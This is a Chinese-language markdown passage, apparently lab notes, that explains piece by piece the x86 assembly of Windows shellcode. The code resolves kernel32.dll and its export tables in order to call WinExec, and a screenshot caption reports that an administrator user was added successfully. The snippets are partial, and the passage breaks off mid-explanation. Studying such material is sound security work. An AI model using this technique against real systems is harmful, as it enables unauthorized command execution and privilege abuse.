 ![管理员用户添加成功](img/usr-add-success.jpg)
- 程序的汇编源代码分块进行了说明
  - 获取 kernel32.dll 的地址，并压入栈中
    ```
    get_kernel32_address:
    ...
    mov eax, [eax+0x8]     ; EAX = &Kernel32.dll
    push eax
    ```
  - 获取 kernel32.dll 的导出表地址，存储在 EBX 中
    ```
    get_kernel32_export_table:
    ...
    add ebx, eax        ; EBX = &ExportTable
    ```
  - 根据导出表地址，获取导出名字表的地址，存储在 EDX 中
    ```
    get_export_name_table:
    mov edx, [ebx+0x20] ; EDX = RVA ExportNameTable
    add edx, eax        ; EDX = &ExportNameTable
    ```
  - 根据导出表地址，获取导出序号列表的地址，并压入栈中
    ```
    get_export_ordinal_table:
    mov ecx, [ebx+0x24] ; ECX = RVA ExportOrdinalTable
    add ecx, eax        ; ECX = &ExportOrdinalTable
    push ecx
    ```
  - 根据导出表地址，获取导出地址表的地址，并压入栈中
  - 将`WinExec`函数名字符串压入栈中
    ```
    WinExec_String:
    push 0x456E6957 ; EniW
